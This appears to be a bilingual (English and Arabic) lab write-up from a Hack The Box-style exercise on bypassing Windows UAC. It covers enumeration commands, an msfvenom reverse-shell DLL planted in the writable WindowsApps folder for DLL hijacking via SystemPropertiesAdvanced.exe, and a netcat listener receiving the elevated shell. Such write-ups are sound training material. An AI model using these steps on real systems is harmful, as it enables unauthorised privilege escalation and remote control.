 # User Account Control

**User Account Control(UAC):** feature in windows which display consent prompt when program run service need high privilege

عباره عن برومبت بتظهر لما بترن حاجه محتاجه صلاحيات عاليه

When UAC is enable all Apps running with user privilege wither admin accept to running with admin privilege

لما الحاجه دي تبقي شغاله البرامج والمهام بتشتغل بصلاحيات مستخدم عادي، إلا لو الأدمن وافق صراحة إنها تشتغل بصلاحيات أدمن. ده بيحمي الأدمن من إنه يعمل تغييرات خطيرة من غير قصد.

**UAC is not Security Boundary**

***

## **Checking Current User**

```powershell
C:\htb> whoami /user

USER INFORMATION
----------------

User Name         SID
================= ==============================================
winlpe-ws03\sarah S-1-5-21-3159276091-2191180989-3781274054-1002
```

## **Confirming Admin Group Membership**

```powershell
C:\htb> net localgroup administrators

Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
mrb3n
sarah
The command completed successfully.
```

## **Reviewing User Privileges**

```powershell
C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

## **Confirming UAC is Enabled**

check if UAC is enabled if value is 0x1 then UAC is enabled

```powershell
C:\htb> REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
    EnableLUA    REG_DWORD    0x1
```

## **Checking UAC Level**

The value of `ConsentPromptBehaviorAdmin` is `0x5`, which means the highest UAC level of `Always notify` is enabled. There are fewer UAC bypasses at this highest level.

```powershell
C:\htb> REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
    ConsentPromptBehaviorAdmin    REG_DWORD    0x5
```

## **Checking Windows Version**

UAC bypasses leverage flaws or unintended functionality in different Windows builds

```powershell
PS C:\htb> [environment]::OSVersion.Version

Major  Minor  Build  Revision
-----  -----  -----  --------
10     0      14393  0
```

This returns the build version 14393, which using [this](https://en.wikipedia.org/wiki/Windows_10_version_history) page we cross-reference to Windows release `1607`.

![image.png](<../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png>)

> **The** [**UACME**](https://github.com/hfiref0x/UACME) **project maintains a list of UAC bypasses, including information on the affected Windows build number, the technique used, and if Microsoft has issued a security update to fix it**

<figure><img src="../../../../.gitbook/assets/image 1 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **Reviewing Path Variable**

The `WindowsApps` folder is within the user's profile and writable by the user.

```powershell
PS C:\htb> cmd /c echo %PATH%

C:\Windows\system32;
C:\Windows;
C:\Windows\System32\Wbem;
C:\Windows\System32\WindowsPowerShell\v1.0\;
C:\Users\sarah\AppData\Local\Microsoft\WindowsApps;
```

We can potentially bypass UAC in this by using DLL hijacking by placing a malicious `srrstr.dll` DLL to `WindowsApps` folder, which will be loaded in an elevated context.

***

## **Generating Malicious srrstr.dll DLL**

First, let's generate a DLL to execute a reverse shell. and open listener

```bash
irix@htb[/htb]$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8443 -f dll > srrstr.dll

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 5120 bytes
```

## **Testing Connection**

run dll with privilege user to confirm it’s work

```bash
C:\htb> rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll
```

## **Executing SystemPropertiesAdvanced.exe on Target Host**

Before proceeding, we should ensure that any instances of the `rundll32` process from our previous execution have been terminated.

```bash
C:\htb> tasklist /svc | findstr "rundll32"
rundll32.exe                  6300 N/A
rundll32.exe                  5360 N/A
rundll32.exe                  7044 N/A

C:\htb> taskkill /PID 7044 /F
SUCCESS: The process with PID 7044 has been terminated.

C:\htb> taskkill /PID 6300 /F
SUCCESS: The process with PID 6300 has been terminated.

C:\htb> taskkill /PID 5360 /F
SUCCESS: The process with PID 5360 has been terminated.
```

Now, we can try the 32-bit version of `SystemPropertiesAdvanced.exe` from the target host.

```bash
C:\htb> C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```

## **Receiving Connection Back**

Checking back on our listener, we should receive a connection almost instantly.

```bash
irix@htb[/htb]$ nc -lvnp 8443

listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.16] 50273
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami

whoami
winlpe-ws03\sarah

C:\Windows\system32>whoami /priv

whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Disabled
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Disabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Disabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Disabled
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Disabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Disabled
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Disabled
SeTimeZonePrivilege                       Change the time zone                                               Disabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Disabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Disabled
```

***
